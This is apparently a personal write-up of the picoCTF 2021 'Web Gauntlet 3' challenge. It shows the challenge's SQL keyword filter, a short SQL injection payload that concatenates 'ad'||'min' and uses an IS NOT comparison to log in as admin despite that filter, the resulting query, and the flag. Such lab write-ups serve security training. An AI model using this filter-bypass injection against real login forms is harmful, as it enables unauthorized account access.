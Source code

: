 # Web Gauntlet 3

```markdown
Tags: `picoCTF2021` `Web Exploitation`
```

## **Description**

Last time, I promise! Only 25 characters this time. Log in as admin Site: [http://mercury.picoctf.net:8650/](http://mercury.picoctf.net:8650/) Filter: [http://mercury.picoctf.net:8650/filter.php](http://mercury.picoctf.net:8650/filter.php)

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: ad'||'min
password: 1' IS NOT '2
```

```sql
SELECT username, password FROM users WHERE username='ad'||'min' AND password='1' IS NOT '2' 
```

## Flag

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p><code>picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)

